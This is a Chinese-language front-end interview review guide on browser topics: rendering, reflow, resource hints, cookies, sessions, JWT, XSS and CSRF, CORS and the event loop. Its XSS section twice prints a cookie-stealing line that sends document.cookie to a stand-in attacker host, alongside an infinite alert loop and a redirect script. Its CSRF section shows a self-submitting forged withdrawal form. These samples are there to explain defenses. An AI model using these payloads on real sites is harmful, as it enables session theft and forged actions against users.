




# 面试复习-浏览器篇

- [面试复习-浏览器篇](#%e9%9d%a2%e8%af%95%e5%a4%8d%e4%b9%a0-%e6%b5%8f%e8%a7%88%e5%99%a8%e7%af%87)
  - [浏览器渲染UI的过程](#%e6%b5%8f%e8%a7%88%e5%99%a8%e6%b8%b2%e6%9f%93ui%e7%9a%84%e8%bf%87%e7%a8%8b)
  - [回流与重绘](#%e5%9b%9e%e6%b5%81%e4%b8%8e%e9%87%8d%e7%bb%98)
  - [何时会引发回流与重绘](#%e4%bd%95%e6%97%b6%e4%bc%9a%e5%bc%95%e5%8f%91%e5%9b%9e%e6%b5%81%e4%b8%8e%e9%87%8d%e7%bb%98)
  - [如何减少回流和重绘](#%e5%a6%82%e4%bd%95%e5%87%8f%e5%b0%91%e5%9b%9e%e6%b5%81%e5%92%8c%e9%87%8d%e7%bb%98)
  - [defer和async](#defer%e5%92%8casync)
  - [preload和prefetch](#preload%e5%92%8cprefetch)
  - [dns-prefetch域名预解析](#dns-prefetch%e5%9f%9f%e5%90%8d%e9%a2%84%e8%a7%a3%e6%9e%90)
  - [cookie、localStorage和sessionStorage](#cookielocalstorage%e5%92%8csessionstorage)
  - [cookie、session、token、jwt](#cookiesessiontokenjwt)
  - [XSS和CSRF](#xss%e5%92%8ccsrf)
  - [跨域](#%e8%b7%a8%e5%9f%9f)
  - [Event Loops事件循环](#event-loops%e4%ba%8b%e4%bb%b6%e5%be%aa%e7%8e%af)
  - [事件机制](#%e4%ba%8b%e4%bb%b6%e6%9c%ba%e5%88%b6)
  - [HTML5拖拽事件](#html5%e6%8b%96%e6%8b%bd%e4%ba%8b%e4%bb%b6)
  - [浏览器缓存](#%e6%b5%8f%e8%a7%88%e5%99%a8%e7%bc%93%e5%ad%98)


## 浏览器渲染UI的过程

1. 获取HTML文件，对HTML进行解析，并生成DOM Tree

2. 与此同时，进行css的解析，生成Style Rules

3. 接着将DOM Tree和Style Rules合成Render Tree

4. 进入布局（Layout）阶段（回流），为每个节点分配一个应出现在屏幕上的确切坐标，计算几何信息

5. 最后，通过上一步或得几何信息，调用CPU/GPU进行绘制（painting）（重绘）并展示元素


## 回流与重绘

回流：也叫重排，部分渲染树（或者整个的渲染树）需要重新分析或者尺寸需要重新计算，表现为重新生成布局，重新排列元素

重绘：由于节点的几何属性（不影响布局的属性）或者样式发生改变，例如改变元素背景颜色，表现为元素外观的改变

重排和重绘代价是高昂的，它们会破坏用户体验，并且让UI展示非常迟缓，而相比之下重排的性能影响更大，在两者无法避免的情况下，一般我们宁可选择代价更小的重绘

『重绘』不一定会出现『重排』，『重排』必然会出现『重绘』

## 何时会引发回流与重绘

* 添加或删除可见的DOM元素

* 元素的位置发生变化

* 元素的尺寸发生变化（包括外边距、内边框、边框大小、高度和宽度等）

* 内容发生变化，比如文本变化或图片被另一个不同尺寸的图片所替代。

* 页面一开始渲染的时候（这肯定避免不了）

* 浏览器的窗口尺寸变化（因为回流是根据视口的大小来计算元素的位置和大小的）

* 根据改变的范围和程度，渲染树中或大或小的部分需要重新计算，有些改变会触发整个页面的重排，比如，滚动条出现的时候或者修改了根节点。

## 如何减少回流和重绘

- 浏览器的优化机制

现代浏览器都比较聪明,由于每次重排都会造成额外的计算消耗，因此大多数浏览器都会通过队列化修改并批量执行来优化重排过程。浏览器会将修改操作放入到队列里，直到过了一段时间或者操作达到了一个阈值，才清空队列。但是！**当你获取布局信息的操作的时候，会强制队列刷新**，比如当你访问以下属性或者使用以下方法：

* offsetTop、offsetLeft、offsetWidth、offsetHeight
* scrollTop、scrollLeft、scrollWidth、scrollHeight
* clientTop、clientLeft、clientWidth、clientHeight
* getComputedStyle()
* getBoundingClientRect
* 具体可以访问这个网站：[https://gist.github.com/paulirish/5d52fb081b3570c81e3a](https://gist.github.com/paulirish/5d52fb081b3570c81e3a)

以上属性和方法都需要返回最新的布局信息，因此浏览器不得不清空队列，触发回流重绘来返回正确的值。因此，我们在修改样式的时候，**最好避免使用上面列出的属性，他们都会刷新渲染队列。**如果要使用它们，最好将值缓存起来。

- 代码优化

  1. 集中改变样式

  ```js
  <!-- 使用cssText -->
  const el = document.getElementById('test');
  el.style.cssText += 'border-left: 1px; border-right: 2px; padding: 5px;';

  <!-- 修改类名 -->
  const el = document.getElementById('test');
  el.className += ' active';
  ```

  2. 批量修改dom

  当我们需要对dom进行一系列的操作的时候,可以通过以下步骤减少回流重绘次数:

  * 使元素脱离文档流
  * 对其进行多次修改
  * 将元素带回到文档中

  该过程的第一步和第三步可能会引起回流，但是经过第一步之后，对DOM的所有修改都不会引起回流重绘，因为它已经不在渲染树了

  有三种方式可以让DOM脱离文档流：

  * 隐藏元素，应用修改，重新显示
  * 使用文档片段(document fragment)在当前DOM之外构建一个子树，再把它拷贝回文档。
  * 将原始元素拷贝到一个脱离文档的节点中，修改节点后，再替换原始的元素。

  ```js
  function appendDataToElement(appendToElement, data) {
      let li;
      for (let i = 0; i < data.length; i++) {
        li = document.createElement('li');
          li.textContent = 'text';
          appendToElement.appendChild(li);
      }
  }
  const ul = document.getElementById('list');
  ul.style.display = 'none';
  appendDataToElement(ul, data);
  ul.style.display = 'block';
  ```

  ```js
  const ul = document.getElementById('list');
  const fragment = document.createDocumentFragment();
  appendDataToElement(fragment, data);
  ul.appendChild(fragment);
  ```

  ```js
  const ul = document.getElementById('list');
  const clone = ul.cloneNode(true);
  appendDataToElement(clone, data);
  ul.parentNode.replaceChild(clone, ul);
  ```

  其实思路都是减少操作dom的次数,**但是现代浏览器会使用队列来储存多次修改，进行优化，所以对这个优化方案，我们其实不用优先考虑。**

  - 硬件加速（GPU加速）

  
  比起考虑如何减少回流重绘，我们更期望的是，根本不要回流重绘。这个时候，css3硬件加速就闪亮登场啦！！

  1. 使用css3硬件加速，可以让transform、opacity、filters这些动画不会引起回流重绘 。

  2. 对于动画的其它属性，比如background-color这些，还是会引起回流重绘的，不过它还是可以提升这些动画的性能。

  **如何触发硬件加速**

  常见的触发硬件加速的css属性：

  * transform
  * opacity
  * filters
  * Will-change

  所以我们可以通过硬编码的方式开启硬件加速, 比如

  ```css
  .example1 { transform: translateZ(0); } 
  .example2 { transform: rotateZ(360deg); }
  ```

  最好方式是使用 CSS 的 will-change 属性：

  ```css
  #target {
    will-change: transform;
  }
  ```

  **css3硬件加速的坑**

  当然，任何美好的东西都是会有对应的代价的，过犹不及。css3硬件加速还是有坑的:

  1. 如果你为太多元素使用css3硬件加速，会导致内存占用较大，会有性能问题
  2. 在GPU渲染字体会导致抗锯齿无效。这是因为GPU和CPU的算法不同。因此如果你不在动画结束的时候关闭硬件加速，会产生字体模糊

## defer和async



defer和async属性仅适用于外部脚本，也就是只有存在src属性的时候才会生效。

async的优先级比defer高，如果同时存在defer和async属性，浏览器会选择async方式加载文件。

## preload和prefetch

在我们的浏览器加载资源的时候，对于每一个资源都有其自身的默认优先级。

以谷歌浏览器为例，我们打开控制台，并切换到Network选项，点击刷新页面，在网络下面的title一行点击鼠标右键，勾选Priority即可看到加载资源的优先级，我们可以看到样式的级别比脚本的优先级高，毕竟页面的一加载进来肯定是样式首先需要渲染的，不然整个页面便会四分五裂，用户体验不好。



通过添加preload属性可以告知浏览器应该尽快的加载某个资源

```html
<link as="script" rel="preload" href="foo.js">
```

如果提取的资源3s内未在当前使用，在谷歌开发工具将会触发警告消息



prefetch属性可以告知浏览器页面加载完成后，在带宽可用的情况下，加载用户下一步期待的页面资源

```html
<link rel="prefetch" href="foo.html">
```

## dns-prefetch域名预解析

解析域名的时间很短，但是也会有延迟，并且不是所有的浏览器都一定会对解析后的域名进行缓存，所以，我们告知浏览器提前对域名进行预解析，并缓存

```html
<link rel="dns-prefetch" href="//domain.com">
```

## cookie、localStorage和sessionStorage

上述提到的技术名词都是在客户端以键值对存储的存储机制，并且只能将值存储为字符串

||cookie|localStorage|sessionStorage|
|---|---|---|---|
|初始化|一般由服务端通过`Set-Cookie`进行设置|客户端|客户端|
|过期时间|手动设置，比如`Expires=Wed, 21 Oct 2020 07:28:00 GMT;`或者`Max-Age=2600000;`|永不过期|当页面关闭时|
|是否会随着每个HTTP请求发送给服务器|是，cookie会通过`Cookie`请求头，自动发送给服务器|否|否|
|容量（每个域名）|4kb|5MB|5MB|
|访问权限|任意窗口|任意窗口|当前窗口|

## cookie、session、token、jwt

cookie是存储在浏览器端的一小块数据

可以通过服务端进行设置，也可以直接在浏览器端使用JavaScript进行设置

- 浏览器端：通过 js 代码来设置，例如 document.cookie = "firstName=example; 

- 服务器端：通过给 Http Response Headers 中的`Set-Cookie`字段赋值，来设置 cookie。客户端接收到Set-Cookie字段后，将其存储在浏览器中

它包含以下几个属性：

- Domain 标识指定了哪些主机可以接受 Cookie，如果指定了 Domain，则一般包含子域名（子域名可以访问父域名的 Cookie）

- Path 标识指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 %x2F (/) 作为路径分隔符，子路径也会被匹配

  设置 Path=/docs，则以下地址都会匹配：

  /docs
  /docs/Web/
  /docs/Web/HTTP

- Expries / Max-Age Cookie 的过期时间，过了这个时间之后 Cookie 将会自动删除

  ```
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
  
  <!-- Max-Age 的单位是秒 -->
  document.cookie = 'promo_shown=1; Max-Age=2600000; Secure'
  ```

- HttpOnly 为避免跨域脚本 (XSS) 攻击，通过 JavaScript 的 Document.cookie API 无法访问带有 HttpOnly 标记的 Cookie，它们只应该发送给服务端。如果包含服务端 Session 信息的 Cookie 不想被客户端 JavaScript 脚本调用，那么就应该为其设置 HttpOnly 标记

  ```
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
  ```

  xss攻击是指往网页中插入恶意的JavaScript脚本，达到窃取cookie值，恶意跳转引流或者其他的目的

  窃取取cookie：

  ```js
  new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
  ```

  恶意跳转：

  ```html
  <script>
    window.location.href="http://www.baidu.com";
  </script>
  ```

- Secure 标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端

- SameSite Cookie 允许服务器要求某个 Cookie 在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）

  ```
  Set-Cookie: key=value; SameSite=Strict
  ```
  + None 浏览器会在同站请求、跨站请求下继续发送 Cookies，不区分大小写；

  + Strict 浏览器将只发送相同站点请求的 Cookie(即当前网页 URL 与请求目标 URL 完全一致)。如果请求来自与当前 location 的 URL 不同的 URL，则不包括标记为 Strict 属性的 Cookie；

  + Lax 在新版本浏览器中，为默认选项，Same-site Cookies 将会为一些跨站子请求保留，如图片加载或者 iframe 不会发送，而点击 `<a>` 标签会发送；

  |请求类型|示例|正常情况|Lax|
  |---|---|---|---|
  |链接	|`<a href="..."></a>`|发送Cookie|发送 Cookie|
  |预加载|	`<link rel="prerender" href="..."/>`|	发送 Cookie|	发送 Cookie|
  |GET 表单|	`<form method="GET" action="...">`|	发送 Cookie|	发送 Cookie|
  |POST 表单|	`<form method="POST" action="...">`|发送 Cookie|	不发送|
  |iframe	|`<iframe src="..."></iframe>`|	发送 Cookie|	不发送|
  |AJAX|	`$.get("...")`|	发送 Cookie|	不发送|
  |Image	|``|	发送 Cookie	|不发送|

- 修改cookie

```js
function setCookie(cname, cvalue, exdays) {
  const d = new Date()
  d.setTime(d.getTime() + exdays * 24 * 60 * 60 * 1000)
  const expires = 'expires=' + d.toUTCString()
  return (document.cookie = cname + '=' + cvalue + ';' + expires + ';path=/')
}
```

- 删除cookie 

```js
function deleteCookie(cname) {
  const d = new Date()
  const expires = 'expires=' + d.toUTCString()
  return (document.cookie = cname + '=' + ';' + expires + ';path=/')
}
```

- 查询cookie

```js
function getCookie(cname) {
  const cookieObj = document.cookie.split(';').reduce((prev, curr) => {
    const entry = curr.split('=')
    prev[entry[0].trim()] = entry[1]
    return prev
  }, {})
  if (cname) return cookieObj[cname]
  return cookieObj
}
```

session机制是服务端的一种机制，当需要为某个客户端程序创建一个session时，服务端首先会检查该请求中是否包含session标识（session ID）。如果包含，服务端就会知道已经为改客户端创建过session，然后通过session ID检索出session的值来使用；如果不包含，就会创建一个新的session并且产生与之关联的唯一session ID，并将这个session ID返回给客户端。session ID的存储还是需要借助 cookie来实现。可以认为session是以k-v形式来存储数据的：

- Key：也称 SessionID，保存在客户端浏览器。
- Value：也称“Session”，保存在服务端。

假设/login接口登陆成功后，服务器可以生成 sessionId 和 session。其中，session 中保存了过期时间，一些冗余信息等。代码如下：

```js
router.get("/login", async (ctx, next) => {
    const { user, pwd } = querystring.parse(ctx.request.search.slice(1));
    // mock数据，模拟一下登陆过程
    if (user === "test" && pwd === "123456") {
        // 生成客户端存储的sessinId
        const sessionId = crypto
            .createHash("md5")
            .update(user + pwd)
            .digest("hex");
        // 生成服务端存储的session
        const session = {
            expire: Date.now() + 1000 * 60 * 60 * 24, // 过期时间
            info: {
                // 保存的信息
                name: user
            }
        };
        sessions.set(sessionId, session);
        ctx.cookies.set("sessionId", sessionId);
        ctx.response.body = "登陆成功";
    } else {
        ctx.response.body = "登陆失败";
        ctx.response.status = 401;
    }
});
```
然后客户端在 cookies 中携带 sessionId，访问/userInfo接口，获得用户信息。服务端检查 sessionId 合法性，以及是否过期。代码如下：

```js
router.get("/userInfo", async (ctx, next) => {
    const sessionId = ctx.cookies.get("sessionId");
    const session = sessions.get(sessionId);
    // 如果sessionId不存在
    if (!session) {
        ctx.response.body = "无法识别身份";
        ctx.response.status = 401;
        return;
    }
    // session过期
    if (session.expire <= Date.now()) {
        ctx.response.body = "session过期，请重新登陆";
        ctx.response.status = 401;
        return;
    }

    ctx.response.body = session.info;
}); 
```

session和cookie区别

- session传输数据较少，数据结构灵活，存储的数据大小无限制，取决于服务器内存；相较于 cookie 来说，session 存储在服务端，客户端仅保留换取 session 的用户凭证。因此传输数据量小，速度快。

- session 更安全：检验、生成、验证都是在服务端按照指定规则完成，而 cookie 可能被客户端通过 js 代码篡改

- session 的不足：服务器是有状态的。多台后端服务器无法共享 session。解决方法是，专门准备一台 session 服务器，关于 session 的所有操作都交给它来调用。而服务器之间的调用，可以走内网 ip，走 RPC 调用（不走 http）

token是借助算法加密形成的认证令牌。

为什么需要token？

它与cookie和session相比有以下几个优点：

- 相对cookie安全性更高，密钥存储在服务器

- 相对session而言，对于分布式的应用，不需要额外增加一台服务器专门用于共享会话状态

- 可以实现跨域授权，不在局限父子域名

缺点就是会增加服务器的压力，毕竟需要进行加密

JWT是token的一种实现标准，具体的内容可以查看 [https://jwt.io](https://jwt.io)，这里仅简单介绍以下JWT

JWT的结构或者说它包含以下几个部分：

* Header
* Payload
* Signature

header包含两部分：签名算法和token类型(JWT)

```
{
  "alg": "HS256",
  "typ": "JWT"
}
```
上述内容通过base64编码成为JWT的header

Payload中可以自定义一些内容比如userId，官方文档也有推荐一些内容，不是强制的：

- iss: 该JWT的签发者

- sub: 该JWT所面向的用户

- aud: 接收该JWT的一方

- exp(expires): 什么时候过期，这里是一个Unix时间戳

- iat(issued at): 在什么时候签发的

比如：

```
{
  "sub": "1234567890",
  "name": "John Doe",
  "admin": true
}
```
同样上述内容也需要经过base64编码

Signature 使用经过base64编码的header和payload，另外需要提供一个密钥，进行签名

```
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  secret)
```

上述使用的是 `HMACSHA256` 算法，加密后的header和payload是通过'.'进行连接的。

项目中一般会使用对应的包（比如jsonwebtoken）来进行JWT的token签发和验证，secret通常也会存储到环境变量中。

## XSS和CSRF

XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论，提交含有 JavaScript 的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

比如：

单纯的恶作剧：

```js
while (true) {
  alert('你关不掉我！')
}
```

窃取取cookie：

```js
new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
```

恶意跳转：

```html
<script>
  window.location.href="http://www.baidu.com";
</script>
```

CSRF 的全称是“跨站请求伪造”，顾名思义，是伪造请求，冒充用户在站内的正常操作。攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

一个典型的CSRF攻击有着如下的流程：

1. 受害者登录http://a.com，并保留了登录凭证（Cookie）。

2. 攻击者引诱受害者访问了http://b.com。

3. http://b.com 向 http://a.com 发送了一个请求：http://a.com/act=xx。浏览器会默认携带http://a.com的Cookie。

4. http://a.com接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。

5. http://a.com以受害者的名义执行了act=xx。

6. 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让http://a.com执行了自己定义的操作。


比如一些网站的资源操作接口是通过get访问的，GET类型的CSRF利用非常简单，只需要一个HTTP请求，

比如论坛帖子创建删除：

```js

```

再比如向银行发送一个请求（实际上不可能，只是一个假设）:

```html
  
```

另外，使用POST的请求也会受到CSRF的攻击：

比如，通过伪造表单提交发送POST请求

```JS
<form action="http://bank.example/withdraw" method=POST>
    <input type="hidden" name="account" value="xiaoming" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="hacker" />
</form>
<script> document.forms[0].submit(); </script> 
```


CSRF与XSS都属于跨站攻击--不攻击服务器攻击用户，但是，它们的攻击类型属于不同的维度。XSS也能伪造请求，所以，XSS是实现CSRF的一种方式，还有很多其他的方式来实现CSRF。

如何防范XSS和CSRF?

针对XSS，首先是过滤；比如过滤掉`<script>` `<a>` ``这些标签。其次是编码；像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。最后是限制，xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御，另外，针对身份认证cookie需要限制浏览器对其的操作。

针对CSRF，首先严格遵守REST风格的设计，避免重要的接口使拥GET。其次，我们通过观察可以发现，CSRF攻击都是从第三方网站发起的，本质也就是需要跨站，所以我们可以启用同源检测。

同源检测：

直接禁止第三方网站或者不受信任的域名对我们发起的请求。

在HTTP协议中，每一个请求通常会携带以下两个请求头：

* Origin Header
* Refer Header

这两个Header在浏览器发起请求时，大多数情况会自动带上，并且不能由前端自定义内容。

针对 Origin 以下两种情况不会存在：

- IE11同源策略： IE 11 不会在跨站CORS请求上添加Origin标头，Referer头将仍然是唯一的标识。最根本原因是因为IE 11对同源的定义和其他浏览器有不同，有两个主要的区别，可以参考[https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy](https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy)

- 302重定向： 在302重定向之后Origin不包含在重定向的请求中，因为Origin可能会被认为是其他来源的敏感信息。对于302重定向的情况来说都是定向到新的服务器上的URL，因此浏览器不想将Origin泄漏到新的服务器上。

所以需要使用Referer Header确定来源域名：

根据HTTP协议，在HTTP头中有一个字段叫Referer，记录了该HTTP请求的来源地址。

对于Ajax请求，图片和script等资源请求，Referer为发起请求的页面地址。对于页面跳转，Referer为打开页面历史记录的前一个页面地址。因此我们使用Referer中链接的Origin部分可以得知请求的来源域名。

这种方法并非万无一失，Referer的值是由浏览器提供的，虽然HTTP协议上有明确的要求，但是每个浏览器对于Referer的具体实现可能有差别，并不能保证浏览器自身没有安全漏洞。使用验证 Referer 值的方法，就是把安全性都依赖于第三方（即浏览器）来保障，从理论上来讲，这样并不是很安全。在部分情况下，攻击者可以隐藏，甚至修改自己请求的Referer。

内容过长，关于XSS攻击和CSRF攻击可以查看以下两篇文章：

[https://tech.meituan.com/2018/09/27/fe-security.html](https://tech.meituan.com/2018/09/27/fe-security.html)
[https://tech.meituan.com/2018/10/11/fe-security-csrf.html](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)

## 跨域

跨域资源共享(CORS) 是一种机制，它使用额外的 HTTP 头来告诉浏览器  让运行在一个 origin (domain) 上的Web应用被准许访问来自不同源服务器上的指定的资源。当一个资源从与该资源本身所在的服务器不同的域、协议或端口请求一个资源时，资源会发起一个跨域 HTTP 请求。

为什么会产生跨域？

因为浏览器的同源策略。

简单来说就是当你向不同“域”的服务器发起网络请求的时候，这个请求就跨域了。这里不同“域”指的是不同的协议、域名、端口，有任何一个不同时，浏览器都视为跨域。

我们在使用postman、fiddler等一些工具模拟发起http请求的时候，不会遇到跨域的情况；当我们在浏览器中请求不同域名的时候，虽然请求正常发出了，但是浏览器在请求返回时会进行一系列的校验，判断此次请求是否“合法”；如果不合法，返回结果就被浏览器拦截了。

更详细请查看：
- [彻底读懂前端跨域CORS](https://juejin.im/post/5dac79fe518825420a281c73)

- [跨域解决方案全](https://segmentfault.com/a/1190000011145364)

- [九种跨域方式实现原理（完整版）](https://zhuanlan.zhihu.com/p/55858103)


## Event Loops事件循环

浏览器由多个进程组成：比如browser进程（主进程，负责协调和主控），第三方插件进程（通常每一类的插件对应一个进程），浏览器渲染进程（浏览器内核，Renderer进程，内部是多线程）

> 在浏览器开一个网页相当于新起一个独立的browser进程

对于前端来说，最重要的是了解渲染进程。

可以这样理解，页面的渲染，JS的执行，事件的循环，都在这个进程内进行。以下列举一些渲染进程中主要的常驻线程：

GUI渲染线程：

- 负责渲染浏览器界面，解析HTML，CSS，构建DOM树和RenderObject树，布局和绘制等。

- 当界面需要重绘（Repaint）或由于某种操作引发回流(reflow)时，该线程就会执行

- 注意，GUI渲染线程与JS引擎线程是互斥的，当JS引擎执行时GUI线程会被挂起（相当于被冻结了），GUI更新会被保存在一个队列中等到JS引擎空闲时立即被执行。

js引擎线程：

- 也称为JS内核，负责处理Javascript脚本程序。（例如V8引擎）

- JS引擎线程负责解析Javascript脚本，运行代码。

- JS引擎一直等待着任务队列中任务的到来，然后加以处理，一个Tab页（renderer进程）中无论什么时候都只有一个JS线程在运行JS程序

- 同样注意，GUI渲染线程与JS引擎线程是互斥的，所以如果JS执行的时间过长，这样就会造成页面的渲染不连贯，导致页面渲染加载阻塞。

事件触发线程：

- 归属于浏览器而不是JS引擎，用来控制事件循环（可以理解，JS引擎自己都忙不过来，需要浏览器另开线程协助）

- 当JS引擎执行代码块如setTimeOut时（也可来自浏览器内核的其他线程,如鼠标点击、AJAX异步请求等），会将对应任务添加到事件线程中

- 当对应的事件符合触发条件被触发时，该线程会把事件添加到待处理队列的队尾，等待JS引擎的处理

- 注意，由于JS的单线程关系，所以这些待处理队列中的事件都得排队等待JS引擎处理（当JS引擎空闲时才会去执行）

定时器触发线程：

- setInterval与setTimeout所在线程

- 浏览器定时计数器并不是由JavaScript引擎计数的,（因为JavaScript引擎是单线程的, 如果处于阻塞线程状态就会影响记计时的准确）

- 因此通过单独线程来计时并触发定时（计时完毕后，添加到事件队列中，等待JS引擎空闲后执行）

- 注意，W3C在HTML标准中规定，规定要求setTimeout中低于4ms的时间间隔算为4ms。

异步http请求线程：

- 在XMLHttpRequest在连接后是通过浏览器新开一个线程请求

- 将检测到状态变更时，如果设置有回调函数，异步线程就产生状态变更事件，将这个回调再放入事件队列中。再由JavaScript引擎执行。

事件循环：

JavaScript是基于单线程的语言，所有的任务（包括同步和异步任务）都在一个线程内执行，为了保证能够正确的执行这些任务，所以需要事件循环机制。

一个完整的Event Loops大概是下边这个样子：



- 当任务进入执行栈之后，首先会判断当前任务是同步还是异步任务
- 如果是同步任务压入栈之后立即执行
- 如果是异步任务，将该异步任务交给对应的线程进行处理（即是上边提到的一些进程比如：定时器触发线程，http请求线程，这些成为异步处理模块）
- 异步任务完成之后，将异步任务的回调注册到事件任务队列的任务
- 等待当前执行栈空闲的时候，读取事件任务队列，将任务压入栈中执行

这里就涉及到一个任务读取的顺序问题，到底哪个任务先读取执行呢？

JavaScript在任务的分类上进行了一个细分：宏任务（macro-task）和微任务（micro-task）

- script(全局任务)， setTimeout， setInterval， setImmediate， I/O， UI rendering创建的任务都属于宏任务

- process.nextTick， Promise.then()， Object.observe， MutationObserver创建的任务（它们的回调）都属于微任务

微任务是在上一个宏任务下一个宏任务之间执行的

所以，事件循环机制控制的任务执行顺序如下：

- 一开始执行全局任务（script），该任务是一个宏任务
- 当全局的同步代码执行完毕后，执行栈空闲，开始读取事件任务队列中的任务
